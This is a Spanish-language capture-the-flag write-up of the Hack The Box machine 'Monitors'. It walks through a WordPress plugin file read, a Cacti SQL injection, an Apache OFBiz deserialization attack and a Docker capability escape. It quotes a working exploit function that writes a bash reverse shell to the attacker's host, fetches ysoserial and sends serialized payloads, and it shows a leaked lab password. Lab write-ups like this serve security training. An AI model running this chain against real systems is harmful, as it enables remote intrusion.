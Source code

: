 ```yaml
---
layout: single
title: Monitors - Hack The Box
excerpt: "Hoy nos enfrentamos contra la máquina monitors que tiene una dificultad difícil. La máquina es bastante pesada, contempla una vulnerabilidad de un plugin de wordpress que nos permite leer archivos de la máquina. Luego hacemos una inyección sql para conseguir conectarnos a la máquina, después accedemos a un sandbox, escapamos de él y conseguimos root en la máquina oficial."
date: 2022-09-16
classes: wide
header:
  teaser: /assets/images/htb-writeup-monitors/monitors_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - cxdxnt
tags:  
  - rce
  - sandbox escape 
  - lfi
  - cms exploit
---
```


![](/assets/images/htb-writeup-monitors/monitors_logo.png)

Monitors comienza con un WordPress que es vulnerable a un plugin local que incluye una vulnerabilidad que me permite leer archivos del sistema. Al hacerlo, descubrimos otro dominio que sirva una versión vulnerable de Cacti, que explotaremos mediante inyección SQL que conduce a la ejecución del código. A partir de ahí, identificamos un nuevo servicio en desarrollo que ejecute Apache ofbiz en un contenedor Docker y lo usamos para ingresar al contenedor. El contenedor se ejecuta con privilegios, de lo que abusaremos al instalar un módulo de kernel malicioso para obtener acceso como root en el host.

## Enumeracion

```ruby
 nmap -sCV -p22,80 10.10.10.238 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-16 11:08 -03
Nmap scan report for 10.10.10.238
Host is up (0.24s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ba:cc:cd:81:fc:91:55:f3:f6:a9:1f:4e:e8:be:e5:2e (RSA)
|   256 69:43:37:6a:18:09:f5:e7:7a:67:b8:18:11:ea:d7:65 (ECDSA)
|_  256 5d:5e:3f:67:ef:7d:76:23:15:11:4b:53:f8:41:3a:94 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.94 seconds
```
Empezamos enumerando el servicio 80 con whatweb y extraemos dominios.

![](/assets/images/htb-writeup-monitors/whatweb.png)

Vemos que en la ruta /wp-content/plugin tiene directory listing.Por lo cual buscamos si el plugin que vemos es vulnerable.

![](/assets/images/htb-writeup-monitors/plugin.png)
![](/assets/images/htb-writeup-monitors/searchsploit.png)

Comprobamos si es vulnerable a un lfi.

![](/assets/images/htb-writeup-monitors/etc-passwd.png)

Gracias al lfi sacamos una contraseña del archivo configuracion wp-config y extraemos un dominio de 000-default.conf.En el nuevo dominio vemos un panel login.
```bash
wpadmin:BestAdministrator@2020!
```
![](/assets/images/htb-writeup-monitors/login.png)

En el panel de login probamos, como user admin y como password BestAdministrator@2020!.Luego buscamos cacti y la version y vemos que hay un exploit.Lo ejecutamos y contenemos una rce.

![](/assets/images/htb-writeup-monitors/exploitt.png)

## Elevacion de privilegios

En los procesos del sistema vemos lo siguiente.


```bash
/usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8443 -container-ip 172.17.0.2 -container-port 8443
```
Hacemos un port forwarding para extraernos el puerto 8443 de la máquina 172.17.0.2 a mí máquina local. Identificamos que es un servidor https, y le lanzamos un fuzzing.

```bash

>ffuf -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u https://localhost:8443/FUZZ  -c

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://localhost:8443/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 242ms]
content                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 255ms]
common                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 249ms]
catalog                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 259ms]
marketing               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 257ms]
ecommerce               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 264ms]
ap                      [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 255ms]
ar                      [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 245ms]
ebay                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 247ms]
manufacturing           [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 246ms]
passport                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 248ms]
example                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 260ms]
bi                      
```

Fuzeamos y en la ruta https://localhost:8443/manufacturing/control/main, tenemos un panel de login.

![](/assets/images/htb-writeup-monitors/login-docker.png)

En la derecha parte inferior vemos el servicio y version.

![](/assets/images/htb-writeup-monitors/version.png)


Encontramos un exploit, pero no es funcional, así que toca ejecutar todo manualmente.La parte del exploit que nos interesa es esta.

```bash
function webRequest(){
    echo -e "\n[*] Creating a shell file with bash\n"
    echo -e "#!/bin/bash\n/bin/bash -i >& /dev/tcp/$ip/$ncport 0>&1" > shell.sh
    echo -e "[*] Downloading YsoSerial JAR File\n"
    wget -q https://jitpack.io/com/github/frohoff/ysoserial/master-d367e379d9-1/ysoserial-master-d367e379d9-1.jar
    echo -e "[*] Generating a JAR payload\n"
    payload=$(java -jar ysoserial-master-d367e379d9-1.jar CommonsBeanutils1 "wget $ip/shell.sh -O /tmp/shell.sh" | base64 | tr -d "\n")
    echo -e "[*] Sending malicious shell to server...\n" && sleep 0.5
    curl -s $url:$port/webtools/control/xmlrpc -X POST -d "<?xml version='1.0'?><methodCall><methodName>ProjectDiscovery</methodName><params><param><value><struct><member><name>test</name><value><serializable xmlns='http://ws.apache.org/xmlrpc/namespaces/extensions'>$payload</serializable></value></member></struct></value></param></params></methodCall>" -k  -H 'Content-Type:application/xml' &>/dev/null
    echo -e "[*] Generating a second JAR payload"
    payload2=$(java -jar ysoserial-master-d367e379d9-1.jar CommonsBeanutils1 "bash /tmp/shell.sh" | base64 | tr -d "\n")
    echo -e "\n[*] Executing the payload in the server...\n" && sleep 0.5
    curl -s $url:$port/webtools/control/xmlrpc -X POST -d "<?xml version='1.0'?><methodCall><methodName>ProjectDiscovery</methodName><params><param><value><struct><member><name>test</name><value><serializable xmlns='http://ws.apache.org/xmlrpc/namespaces/extensions'>$payload2</serializable></value></member></struct></value></param></params></methodCall>" -k  -H 'Content-Type:application/xml' &>/dev/null
    echo -e "\n[*]Deleting Files..."
    rm ysoserial-master-d367e379d9-1.jar && rm shell.sh
}
```

![](/assets/images/htb-writeup-monitors/rce-docker.png)

Ahora lo hacemos pero para ganarnos una shell.

![](/assets/images/htb-writeup-monitors/root-docker.png)

## Elevacion de privilegios

El docker tiene una capability vulnerable en lo cual nos permite escapar del docker.Hacemos los pasos que nos indica el blog de hacktricks.Vemos que es vulnerable y luego ejecutamos una webshell.
```bash
#https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_sys_module
root@857ded81d423:/usr/src/apache-ofbiz-17.12.01# capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=
```
![](/assets/images/htb-writeup-monitors/root-oficial.png)
